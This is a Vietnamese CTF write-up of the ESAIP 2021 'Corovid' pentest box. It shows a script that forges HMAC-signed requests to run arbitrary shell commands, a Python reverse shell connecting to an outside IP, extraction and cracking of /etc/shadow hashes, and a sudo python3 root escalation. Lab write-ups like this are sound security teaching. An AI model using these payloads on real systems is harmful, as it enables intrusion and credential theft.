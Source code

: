 ```yaml
---
title: "CTF ESAIP HACK CHALLENGE 4th edition - 29 Mai 2021 Final Writeup Box Pentest Corovid"
date : 2021-06-03T00:00:00+08:00
tags: ["CTF", "France", "Box", "ESAIP"]
authors: ["kn"]
description: "ESAPI 20/5/2021 writeup"
showFullContent: false
---
```



## Motivation

Vào một buổi trưa nắng nóng khi dịch bệnh tràn lan, mình có nhận được tin nhắn thử "xoạc" 1 cuộc thi [CTF](https://ctf.esaip.org/) do ESAIP École d'Ingénieurs tổ chức. Đây là kì thi CTF đầu tiên cũng như lần đầu tiên mình viết write up nên cũng chỉ hi vọng lót đường. 

Ở đây thì có một bài về Box pentest rất thú vị là Corovid (nó ngốn của mình 3 tiếng mới xong :( ) 

Challage web được xây dựng bằng Python ở back-end qua command `nmap -sC -sV -A -p- <ip>`. Các request được gửi từ phía Front-End đến Back-End theo các khoảng thời gian đều đặn bằng lệnh shell để để lấy kết quả mới nhất về số ca Covid trên toàn thế giới. Các request cũng đã được ký ở phía Front-End.

![Nmap scan](nmap.png)

Request Sample:

```
GET /get-last-results?
shell=cat%20/tmp/.corovid_value.txt&auth_ts=1620764393&auth_sign=d643a98d4
ce0b407beacdf750a55cff8b371d207bfbec0ae0667c1aa48b2f33a HTTP/1.1
```

![Client code](scr1.png)
![Client code](src2.png)

Đối với những bài có sourcecode sẵn như thế này, thì mình thường lướt sơ và hiểu toàn bộ cấu trúc của source trước khi làm. Sau khi xem toàn bộ source thì mình phát hiện một số điều đáng nghi.

Code khá là lộn xộn nhưng có thể dễ dàng thấy được function y() dùng để tạo 1 request tới back-end với mẫu như ở trên. Hơn nữa, bằng cách đặt một breakpoint tại lúc tạo chữ kí với `HMAC256` thì chúng ta có thể thấy được request sẽ kèm 1 shell command tới sever để query số ca nhiễm covid ( ở đây là `cat /tmp/.corovid_value.txt`)

Pattern khi kí sẽ gồm 
```javascript
HmacSHA256("{timestamp 10 digits}:{commande unix}", "You are a hacker")
```

vậy nên dễ dàng có thể tái tạo lại một signature khác kèm theo câu lệnh mình mong muốn cùng với timestamp, dưới đây là một ví dụ:


```python
command = input("command : ")
timestamp = str(int(datetime.datetime.now().timestamp()))
sign = hmac.new("You are a hacker".encode(), (timestamp + ":" + command).encode(), hashlib.sha256).hexdigest()
parameters = {
 "shell":command,
 "auth_ts":timestamp,
 "auth_sign":sign
}
rep = requests.get(url,params=parameters)
print(rep.text)
```

Vì máy chủ web sử dụng python 3 (được phát hiện trong quá trình nhận dạng với nmap), có thể thông qua tập lệnh tạo request với chữ ký hợp lệ để thực hiện trình reverse shell với payload ( có thể đọc thêm về reverse shell payload ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python))

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("51.38.123.73",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

Tada! Đã có thể login vào shell với user là `pfizer`.
Mình có thử xem trong `/home/pfizer` có 1 file `flag.txt` nhưng đây không phải thứ cần tìm ( đời đâu dễ như thế :( )

```bash
ls -la /root
```

thì có thể thấy `/root/flag.txt` ( mình đoán đây mới là thứ cần tìm ).

Bằng cách hiển thị nội dung của /etc/passwd, chúng ta thấy rằng có 3 người dùng có shell:

* root
* pfizer
* astrazeneca

Hơn nữa, ở trong `/home/pzfizer` có thể dễ dàng thấy web server được lưu ở đây và được chạy dưới user `pfizer` bằng cách list tất cả process với command `ps aux`

![ps aux with user pfizer](psaux.png)

Một điều lạ là chúng ta chỉ có thể thấy các process của người dùng hiện tại là pfizer.
Mình thử liệt kê tất cả các file thuộc quyền sở hữu ứng với các `user` bằng command 
```bash
ls -laR / 2>/dev/null | grep $USER
```

Chúng tôi thấy rằng một tệp ẩn có tên `.bckp_2021-XX-XX_XX:XX.zip` trong thư mục /srv trong đó chủ sở hữu là `root` có thể đọc được bởi group `pfizer`.

![list file by owner](ls.png)

Unzip nó ra thì có thể thấy một bản backup chứa tất cả các hash của system password.

![unzip](image-015.png)
![unzip](image-016.png)

```bash
grep -rn ENCRYPT_METHOD /etc/login.defs

265:# This variable is deprecated. You should use ENCRYPT_METHOD.
279:ENCRYPT_METHOD SHA512
282:# Only used if ENCRYPT_METHOD is set to SHA256 or SHA512.
```

User pfizer chỉ dùng để run web service nên mình cần quan tâm tới user `root` và `astrazeneca`

```bash
tail shadow | grep "astrazeneca" | awk -F':' '{print $2}'
```

![hash password user astrazeneca](image-018.png)

Crack hash password thì mình dùng `hashcat` với wordlist là [rockyou](https://github.com/brannondorsey/naive-hashcat/)

Tada! Password là `monsauveur`

Lúc này thì khá đơn giản rồi, chỉ cần check quyền sudo execution của user với `sudo -l` và có thể thấy là user `astrazeneca` có thể chạy python3 mà không cần password :v 

**Exploitation**

```bash
sudo /usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Flag](image-023.png)

Mình có làm thêm được 2 bài Stegano nữa nhưng mà dễ quá nên không write up :v 
